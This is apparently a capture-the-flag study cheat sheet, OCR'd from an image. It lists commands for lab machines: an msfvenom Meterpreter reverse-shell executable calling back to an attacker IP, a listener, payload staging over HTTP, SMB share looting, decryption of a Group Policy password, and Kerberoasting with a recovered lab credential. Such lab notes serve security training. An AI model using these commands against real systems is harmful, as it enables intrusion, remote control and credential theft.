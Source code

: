 
privilege 
run post/multi/recon/local_exploit_suggester
getprivs

others
sessions || sessions 1/2/3 || set sessions 2/1/3
gobuster [mode] -u [target ip] -w [wordlist]



=================================================================================
king of the hill

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.13.1.218 LPORT=1337 -f exe > shell.exe

Invoke-WebRequest -uri <URL> -outfile <filename>

python3 -m http.server 8008

user multi/handler

set payload windows/meterpreter/reverse_tcp


=================================================================================

Active   

smbclient -L //10.10.10.100 ==  -L to list smb shares
smbclient //10.10.10.100/Replication
smbclient //10.10.10.100/file					# access to Users share file
smbclient -U <username> //<ip>/<share>



| enume4linux <ip>|
smbmap -H 10.10.10.100 == -H  hosts
smbclient //10.10.10.100/Replication -c 'recurse;ls' == list everything
./smbmap -R Replication -H 10.10.10.100 = list everything 

\active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\windows NT\SecEdit\>

Alternate: Download everything
recurse on
prompt off
|mls|
mget *

gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ == dicrypt the group policy password

impacket-GetADUsers -all active.htb/SVC_TGS  -dc-ip 10.10.10.100

sync time with Kerberos:
sudo apt install ntpdate
sudo ntpdate 10.10.10.100

impacket-GetUserSPNs -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request
 